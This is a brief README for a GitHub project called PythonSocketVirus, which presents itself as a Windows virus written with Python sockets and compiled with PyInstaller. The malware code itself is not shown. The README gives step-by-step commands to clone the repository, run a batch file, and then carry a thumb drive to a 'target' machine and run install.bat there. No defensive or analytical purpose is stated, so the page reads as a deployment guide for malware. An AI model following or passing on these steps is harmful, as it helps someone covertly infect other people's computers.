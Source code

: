 # PythonSocketVirus

# Introduction
PythonSocketVirus is a virus made with the module socket in python and converted into .exe using Pyinstaller. It is meant for windows only.
# To install:
```
   git clone https://github.com/TeoSean/PythonSocketVirus2.git
```
```cd PythonSocketVirus2
```
```runas /trustlevel:<0x30000> Copy.bat
```
transfer removable thumb drive to target and run:
```
   runas /trustlevel:<0x30000> install.bat
``` 
